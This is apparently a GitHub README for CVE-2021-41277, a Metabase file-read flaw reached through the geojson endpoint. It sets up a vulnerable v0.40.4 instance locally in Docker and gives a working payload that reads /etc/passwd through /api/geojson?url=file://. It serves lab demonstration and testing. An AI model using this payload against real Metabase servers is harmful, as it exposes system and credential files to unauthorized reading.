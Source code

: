 # CVE-2021-41277 (Metabase SSRF)

To run the vulnerable environment on your local system. Please run the below commands:

```
apt install docker.io
sudo docker pull metabase/metabase:v0.40.4
docker run -d -p 3000:3000 --name metabase metabase/metabase:v0.40.4
```


Now, Open this link on browser http://127.0.0.1:3000

Configure metabase

To exploit the vulnerability, Enter the below mentioned payload:
```
http://127.0.0.1:3000/api/geojson?url=file:///etc/passwd
```
